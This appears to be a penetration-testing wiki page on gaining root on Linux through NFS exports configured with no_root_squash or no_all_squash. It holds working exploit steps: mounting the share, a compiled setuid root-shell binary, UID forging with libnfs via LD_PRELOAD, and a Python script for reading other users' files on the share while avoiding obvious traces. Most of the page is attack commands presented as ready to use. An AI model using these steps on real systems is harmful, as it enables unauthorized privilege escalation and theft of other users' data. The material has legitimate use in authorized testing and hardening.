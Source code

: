 # NFS no\_root\_squash/no\_all\_squash

## Theory

If you find some NFS directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To enumerate the NFS server’s configuration, all we need to do is view the contents of the **/etc/exports** file.

```bash
$ cat /etc/exports
```

If you see a share with the **no\_all\_squash or no\_root\_squash** configuration, you may be able to exploit it.
{% endtab %}

{% tab title="Exploit - Remote" %}
To exploit this privilege escalation vector, we will :

* mount the share from another machine where you’re root
* place a setuid binary there
* on the victim machine, run the binary and get root

On the attacking machine, mount the vulnerable share:

```bash
#Attacker, as root user
mkdir /mnt/pe
mount -t nfs <IP>:<SHARED_FOLDER> /mnt/pe
```

Creat a setuid binary and copy it to the mounted share

```bash
# Attacker, as root user
## Create a SUID binary
echo 'int main() { setgid(0); setuid(0); system("/bin/bash -p"); return 0; }' > /tmp/root_shell.c
gcc /tmp/root_shell.c -o /tmp/root_shell

## Copy the binary and set the uid byte
cd /mnt/pe
cp /tmp/root_shell .
chmod +s root_shell
```

On the victime computer, as a low privilege user:

```bash
# Victime, as low privilege user
cd <SHAREDD_FOLDER>
./root_shell 
#ROOT shell
```

{% hint style="success" %}
You can copy the **/bin/bash** binary directly and give it SUID rights instead of compiling a new binary.
{% endhint %}
{% endtab %}

{% tab title="Exploit - Local" %}
If the `/etc/exports` has an explicit list of IP addresses allowed to mount the share, we won't be able to make the remote exploit and you will need to **abuse this trick and exploit no\_root\_squash/no\_all\_squash locally with an unprivileged user**.

When [listing the NFS shares](../../../network/protocols/nfs.md#showmount), it will show IP allowed to mount the share:

```bash
$ showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

{% hint style="info" %}
Another required requirement for the exploit to work is that **the export inside `/etc/export`** **must be using the `insecure` flag**.\
_I'm not sure that if `/etc/export` is indicating an IP address this trick will work_
{% endhint %}

This exploit relies on a problem in the NFSv3 specification that mandates that it’s up to the client to advertise its uid/gid when accessing the share. Thus it’s possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

#### Compiling the example <a href="#compiling-the-example" id="compiling-the-example"></a>

Here’s a [library that lets you do just that](https://github.com/sahlberg/libnfs). Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscalls.

```bash
# On local NFS server or computer that have access to the share
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

#### Exploiting using the library <a href="#exploiting-using-the-library" id="exploiting-using-the-library"></a>

Let’s use the simplest of exploits:

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:

```bash
# On local NFS server or computer that have access to the share
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that’s left is to launch it:

```bash
# On local NFS server or computer that have access to the share
$ /mnt/share/a.out
# root shell
```
{% endtab %}
{% endtabs %}

### NFShell <a href="#bonus-nfshell" id="bonus-nfshell"></a>

Once local root on the machine, I wanted to loot the NFS share for possible secrets that would let me pivot. But there were many users of the share all with their own uids that I couldn’t read despite being root because of the uid mismatch. I didn’t want to leave obvious traces such as a chown -R, so I rolled a little snippet to set my uid prior to running the desired shell command:

{% tabs %}
{% tab title="NFShell" %}
```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

You can then run most commands as you normally would by prefixing them with the script:

```
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old

# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied

# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}
